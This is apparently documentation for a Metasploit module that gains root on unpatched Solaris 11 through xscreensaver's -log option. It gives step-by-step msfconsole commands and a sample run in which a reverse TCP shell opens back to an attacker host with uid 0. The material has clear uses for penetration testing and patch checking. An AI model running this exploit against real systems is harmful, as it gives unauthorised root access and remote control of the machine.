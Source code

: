 ## Description

  This module exploits a vulnerability in `xscreensaver` versions
  since 5.06 on unpatched Solaris 11 systems which allows users
  to gain root privileges.

  `xscreensaver` allows users to create a user-owned file at any
  location on the filesystem using the `-log` command line argument
  introduced in version 5.06.

  This module uses `xscreensaver` to create a log file in `/usr/lib/secure/`,
  overwrites the log file with a shared object, and executes the shared
  object using the `LD_PRELOAD` environment variable.


## Vulnerable Application

  This module has been tested successfully on:

  * xscreensaver version 5.15 on Solaris 11.1 (x86)
  * xscreensaver version 5.15 on Solaris 11.3 (x86)


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/solaris/local/xscreensaver_log_priv_esc`
  4. Do: `set SESSION [SESSION]`
  5. Do: `run`
  6. You should get a new *root* session


## Options

  **XSCREENSAVER_PATH**

  Path to `xscreensaver` executable. (default: `/usr/bin/xscreensaver`)

  **XORG_PATH**

  Path to `Xorg` executable. (default: `/usr/bin/Xorg`)


## Scenarios

### Solaris 11.3 (x86)

  ```
  msf5 > use exploit/solaris/local/xscreensaver_log_priv_esc 
  msf5 exploit(solaris/local/xscreensaver_log_priv_esc) > set session 1
  session => 1
  msf5 exploit(solaris/local/xscreensaver_log_priv_esc) > set lhost 172.16.191.165
  lhost => 172.16.191.165
  msf5 exploit(solaris/local/xscreensaver_log_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [*] Starting Xorg on display :1 ...
  [*] Creating log file /usr/lib/secure/QKaG911RA8.so ...
  [*] Writing '/tmp/.cqihxHb/.fjgQFF7F08.c' (248 bytes) ...
  [*] Writing '/tmp/.cqihxHb/.K94KoDObn' (61 bytes) ...
  [*] Executing payload...
  [*] Command shell session 2 opened (172.16.191.165:4444 -> 172.16.191.221:39510) at 2019-10-21 03:58:47 -0400
  [!] Tried to delete /usr/lib/secure/QKaG911RA8.so, unknown result
  [+] Deleted /tmp/.cqihxHb/.fjgQFF7F08.c
  [+] Deleted /tmp/.cqihxHb/.fjgQFF7F08
  [+] Deleted /tmp/.cqihxHb/.K94KoDObn
  [+] Deleted /tmp/.cqihxHb

  id
  uid=0(root) gid=0(root) groups=10(staff)
  uname -a
  SunOS solaris 5.11 11.3 i86pc i386 i86pc
  cat /etc/release
                               Oracle Solaris 11.3 X86
    Copyright (c) 1983, 2015, Oracle and/or its affiliates.  All rights reserved.
                              Assembled 06 October 2015
  ```

